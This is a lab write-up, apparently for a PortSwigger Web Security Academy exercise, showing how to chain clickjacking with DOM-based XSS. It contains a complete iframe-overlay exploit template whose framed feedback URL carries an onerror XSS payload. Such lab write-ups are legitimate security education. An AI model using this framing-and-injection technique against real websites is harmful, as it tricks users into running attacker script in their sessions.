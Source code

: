 # Clickjacking - Exploiting clickjacking vulnerability to trigger DOM-based XSS

## 📌 Lab Details
- **Title**: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- **Difficulty**: Practitioner
- **Category**: Clickjacking
- **Lab URL**:

## 🔍 Summary
This lab demonstrates combining **Clickjacking with stored XSS** by framing the feedback form with a prepopulated XSS payload, tricking the victim into clicking “Click me” while actually triggering `print()` via the XSS when the victim clicks.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the **XSS** modified payload on the **Exploit** server:
   ```sh
   <style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   </style>
   <div>Click me</div>
   <iframe
   src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-          website.com&subject=test&message=test#feedbackResult"></iframe>
   ```
3. Adjust the values of the template to align the `Click me` button with the `Submit feedback` button.
4. Deliver exploit to the victim to complete the lab.
   
## 📖 Key Takeaways
- Uses a **prepopulated URL with an XSS payload** (`<img src=1 onerror=print()>`) to execute JavaScript on click.
- Highlights the need for **anti-clickjacking and XSS defenses together** to prevent such chained attacks.
- Shows how **Clickjacking can be used to exploit XSS that requires user interaction**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e3371a7f-cd70-4dd3-a81c-633522d69887)
![image](https://github.com/user-attachments/assets/b1430c2b-09ab-4dc1-b203-415d89f6f7c6)
![image](https://github.com/user-attachments/assets/29b0b755-fdaa-4577-b18b-adba75e7c4a7)
